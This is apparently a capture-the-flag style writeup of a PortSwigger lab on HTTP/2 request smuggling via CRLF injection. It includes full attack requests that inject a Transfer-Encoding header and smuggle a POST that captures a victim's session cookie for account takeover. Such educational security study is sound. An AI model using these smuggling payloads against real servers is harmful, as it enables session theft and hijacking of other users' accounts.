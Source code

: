 # HTTP/2 request smuggling via CRLF injection

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-smuggling-via-crlf-injection), you'll learn: HTTP/2 request smuggling via CRLF injection! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

To solve the lab, use an HTTP/2-exclusive request smuggling vector to gain access to another user's account. The victim accesses the home page every 15 seconds.

If you're not familiar with Burp's exclusive features for HTTP/2 testing, please refer to [the documentation](https://portswigger.net/burp/documentation/desktop/http2) for details on how to use them.

> Note:
>  
> This lab supports HTTP/2 but doesn't advertise this via ALPN. To send HTTP/2 requests using Burp Repeater, you need to enable the [Allow HTTP/2 ALPN override](https://portswigger.net/burp/documentation/desktop/http2#allow-http-2-alpn-override) option and manually [change the protocol to HTTP/2 using the Inspector](https://portswigger.net/burp/documentation/desktop/http2#changing-the-protocol-for-a-request).
>  
> Please note that this feature is only available from [Burp Suite Professional / Community 2021.9.1](https://portswigger.net/burp/releases).

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215141623.png)

**Login page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215141726.png)

In here, the web application has a login page. That being said, **if we can capture other user's requests, we could potentially takeover their account.**

To do so, we can try to do **HTTP request smuggling**.

**First, test the web application accept HTTP/2 (HTTP version 2) or not:**

> To send HTTP/2 requests using Burp Repeater, you need to enable the [Allow HTTP/2 ALPN override](https://portswigger.net/burp/documentation/desktop/http2#allow-http-2-alpn-override) option and manually [change the protocol to HTTP/2 using the Inspector](https://portswigger.net/burp/documentation/desktop/http2#changing-the-protocol-for-a-request).
> 
> ![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215142016.png)
> 
> ![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215142033.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215142050.png)

As you can see, it accepts HTTP/2.

Now, we can test the web application is vulnerable to **H2.CL (Front-end uses HTTP/2, back-end uses `Content-Length` header) via downgrading HTTP/2 requests.**

- H2.CL:

**Attack request:**
```http
POST / HTTP/2
Host: 0a5e001603e9ba1cc0630ad000180094.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /404pls HTTP/1.1
Host: 0a5e001603e9ba1cc0630ad000180094.web-security-academy.net
Content-Length: 25

smuggled=yes
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215142532.png)

However, when we send the request, nothing happen.

We can also try **H2.TE (Front-end uses HTTP/2, back-end uses `Transfer-Encoding` header) via downgrading HTTP/2 requests.**

- H2.TE:

**Attack request:**
```http
POST / HTTP/2
Host: 0a5e001603e9ba1cc0630ad000180094.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404pls HTTP/1.1
X:Foo: x
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144447.png)

Still nothing?

Maybe we can do **request smuggling via CRLF (Carriage Return `\r`, Line Feed `\n`) injection?**

Even if websites take steps to prevent basic H2.CL or H2.TE attacks, such as validating the `content-length` or stripping any `transfer-encoding` headers, HTTP/2's binary format enables some novel ways to bypass these kinds of front-end measures.

In HTTP/1, we can sometimes exploit discrepancies between how servers handle standalone newline (`\n`) characters to smuggle prohibited headers. If the back-end treats this as a delimiter, but the front-end server does not, some front-end servers will fail to detect the second header at all.

```http
Foo: bar\nTransfer-Encoding: chunked
```

This discrepancy doesn't exist with the handling of a full CRLF (`\r\n`) sequence because all HTTP/1 servers agree that this terminates the header.

On the other hand, as HTTP/2 messages are binary rather than text-based, the boundaries of each header are based on explicit, predetermined offsets rather than delimiter characters. This means that `\r\n` no longer has any special significance within a header value and, therefore, can be included **inside** the value itself without causing the header to be split:

`foo` `bar\r\nTransfer-Encoding: chunked`

This may seem relatively harmless on its own, but when this is rewritten as an HTTP/1 request, the `\r\n` will once again be interpreted as a header delimiter. As a result, an HTTP/1 back-end server would see two distinct headers:

```http
Foo: bar
Transfer-Encoding: chunked
```

Let's try to **inject `Transfer-Encoding` header via CRLF injection**!

**To do so, we need to use the Inspector to drill down into the header, add a new header, then press the `Shift + Return` keys in the value input box:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144531.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144559.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144618.png)

Then send the request twice:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144637.png)

Yes! We successfully triggered a 404 response! Which means **the web application is vulnerable to HTTP request smuggling via H2.TE and CRLF injection!**

But, how can we capture users' request in the login page??

**In the home page, we can search something:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144813.png)

Let's search for anything:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144830.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144839.png)

Burp Suite HTTP history:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144854.png)

When we clicked the "Search" button, **it'll send a POST request to `/`, with parameter `search`.**

***Most importantly, it's tied to our session!***

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215145004.png)

Armed with above information, we can capture other users' requests via **smuggling a POST request to `/` with a big `Content-Length` value.**

**Attack request:**
```http
POST / HTTP/2
Host: 0a5e001603e9ba1cc0630ad000180094.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
foo: bar\r\nTransfer-Encoding: chunked

0

POST / HTTP/1.1
Host: 0a5e001603e9ba1cc0630ad000180094.web-security-academy.net
Cookie: session=g5VS4PaNaMcMZ1uI02pCFquZaqDzxPW4; _lab_analytics=WKesnTTuo8aqDwQZi1tet4JIbNutweZ7odsZVzSSLjPiagwKcmsIKJMVDq0UPBXuGn04iuFmgisVdmi9vBegM8v0V072K5R4dZhnMwSyZFyJ2UKw5wgMVsMb4VAehnlg2thHlf4WqEXcOVZcmH0HkTilNqh4DLOwpikt9VGEAiRR4L24jChh4282BHUaiKZWY5pGPKXbyEJrPfHedNvv50yDmjm6pbAgZreZJCkCM7nB9IAddhomuaPrF8vY5E1o
Content-Type: application/x-www-form-urlencoded
Content-Length: 800

search=
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215145829.png)

**Then, in the home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215145848.png)

We captured the victim's session cookie!!

**Finally, modify our session cookie to the victim one:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215150026.png)

Boom! We takeovered `carlos` account!

# What we've learned:

1. HTTP/2 request smuggling via CRLF injection